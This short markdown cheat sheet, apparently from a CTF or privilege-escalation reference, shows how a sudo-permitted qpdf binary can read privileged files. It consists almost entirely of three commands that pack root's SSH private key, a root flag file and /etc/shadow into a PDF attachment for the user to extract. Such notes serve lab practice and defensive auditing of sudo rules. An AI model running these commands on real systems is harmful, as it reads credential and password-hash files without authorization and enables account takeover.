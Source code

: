 # Qpdf privilege escalation

## Sudo

### Usage:

#### 1) Get root ssh private key

    sudo /usr/bin/qpdf --qdf --add-attachment /root/.ssh/id_rsa -- --empty ./id_rsa 

#### 2) Get root flag

    sudo /usr/bin/qpdf --qdf --add-attachment /root/flag.txt -- --empty ./flag.txt 

#### 3) Get shadow file

    sudo /usr/bin/qpdf --qdf --add-attachment /etc/shadow -- --empty ./shadow 



